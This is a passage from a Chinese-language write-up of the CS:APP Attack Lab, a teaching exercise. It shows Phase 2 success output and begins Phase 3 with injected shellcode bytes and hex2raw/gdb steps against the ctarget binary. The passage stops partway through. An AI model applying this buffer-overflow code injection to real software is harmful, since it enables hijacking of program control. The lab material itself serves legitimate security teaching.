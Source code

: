 于是大功告成！

```text
Cookie: 0x11a67610
Touch2!: You called touch2(0x11a67610)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase 3

简单地翻译一下 `hexmatch`

-   首先分配一个长度为 110 的字符数组，然后再这 110 长度的数组中，随机选择一个小于 100 的起始位置 `s`
-   将不能修改的 `cookie`（也就是 hexmatch 中的 val）按照 hex 十六进制下，首先转为对应的 ASCII 码，然后复制 8 个到 `s` 起始的 8 个字节。
-   比较 `s` 和你修改后，存在 `%rdi` 的参数 `sval`（字符数组首地址），比较 9 个字符（含结尾 `\0`）

所以，我们意识到：

-   我们存在缓冲区的东西可能被清除
-   我们无法确定 `s` 的起始位置，也就无法修改它，只能修改 `sval`

好，我们首先类似 phase 2 的做法，得到了如下的代码 `p3.txt`，它实现：

-   溢出 `getbuf` 分配的 24 字节缓冲区 4 个字节，对于没有使用到的字节，使用 3f 填充加以区分
-   首先进行第一次 `ret`，跳转到我们的注入代码
-   修改 `rdi` 的值为 `0x11a67610`（也就是我们的 Cookie）
-   接着 `pushq 0x40207d`（`touch3` 的地址）
-   `ret`，从而跳转进入 `touch3`

```asm
48 c7 c7 10 76 a6 11 68
7d 20 40 00 c3 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f
88 46 63 55
```

类似地，执行

```bash
./hex2raw < p3.txt > p3a.txt
```

获得输入的字符串

然后打开 gdb，依次输入：

```bash
gdb ctarget
b touch3
set args -i p3a.txt
r
layout asm
layout regs
```

成功进入 `touch3` 后，我们首先执行
